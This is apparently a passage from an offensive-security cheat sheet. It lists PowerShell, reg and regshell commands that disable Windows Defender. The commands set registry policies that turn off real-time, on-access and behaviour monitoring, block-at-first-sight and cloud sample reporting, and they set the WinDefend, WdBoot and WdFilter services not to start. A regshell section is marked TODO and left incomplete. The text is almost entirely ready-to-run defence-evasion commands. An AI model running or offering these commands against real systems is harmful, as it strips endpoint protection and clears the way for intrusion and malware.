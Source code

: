 `PS C:\> Set-ItemProperty -Path "HKLM:\SOFTWARE\Policies\Microsoft\Windows Defender\Real-Time Protection" -Name "DisableRealtimeMonitoring" -Type DWord -Value 1;`

`PS C:\> Set-ItemProperty -Path "HKLM:\SOFTWARE\Policies\Microsoft\Windows Defender\Real-Time Protection" -Name "DisableIOAVProtection" -Type DWord -Value 1;`

`PS C:\> Set-ItemProperty -Path "HKLM:\SOFTWARE\Policies\Microsoft\Windows Defender\Real-Time Protection" -Name "DisableOnAccessProtection" -Type DWord -Value 1;`

`PS C:\> Set-ItemProperty -Path "HKLM:\SOFTWARE\Policies\Microsoft\Windows Defender\Real-Time Protection" -Name "DisableScanOnRealtimeEnable" -Type DWord -Value 1;`

`PS C:\> Set-ItemProperty -Path "HKLM:\SOFTWARE\Policies\Microsoft\Windows Defender\Real-Time Protection" -Name "DisableBehaviorMonitoring" -Type DWord -Value 1;`

`PS C:\> New-Item -Path "HKLM:\SOFTWARE\Policies\Microsoft\Windows Defender" -Name "Spynet";`

`PS C:\> Set-ItemProperty -Path "HKLM:\SOFTWARE\Policies\Microsoft\Windows Defender\Spynet" -Name "DisableBlockAtFirstSeen" -Type DWord -Value 1;`

`PS C:\> Set-ItemProperty -Path "HKLM:\SOFTWARE\Policies\Microsoft\Windows Defender\Spynet" -Name "LocalSettingOverrideSpynetReporting" -Type DWord -Value 0;`

`PS C:\> Set-ItemProperty -Path "HKLM:\SOFTWARE\Policies\Microsoft\Windows Defender\Spynet" -Name "SubmitSamplesConsent" -Type DWord -Value 2;`

`PS C:\> Set-ItemProperty -Path "HKLM:\SOFTWARE\Policies\Microsoft\Windows Defender\Spynet" -Name "SpynetReporting" -Type DWord -Value 2;`

`PS C:\> Set-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Services\WinDefend" -Name "Start" -Type DWord -Value 4;`

`PS C:\> New-Item -Path "HKLM:\SOFTWARE\Policies\Microsoft\Windows Defender" -Name "MpEngine";`

`PS C:\> Set-ItemProperty -Path "HKLM:\SOFTWARE\Policies\Microsoft\Windows Defender\MpEngine" -Name "MpCloudBlockLevel" -Type DWord -Value 2;`

`PS C:\> gpupdate /force;`

##### 1.3.1.1.3 - Regshell

TODO: Complete this

```
$ regshell -U <DOMAIN>/<username>%<password> -R <IP>

> predef HKEY_LOCAL_MACHINE
> cd Policies\Microsoft
```

#### 1.3.1.2 - Disable Windows Defender Services

##### 1.3.1.2.1 - Command Prompt

- **Note:** Run this again because Windows Defender is very persistent

`C:\> reg add "HKLM\System\CurrentControlSet\Services\WdBoot" /v "Start" /t REG_DWORD /d "4" /f`

`C:\> reg add "HKLM\System\CurrentControlSet\Services\WdFilter" /v "Start" /t REG_DWORD /d "4" /f`
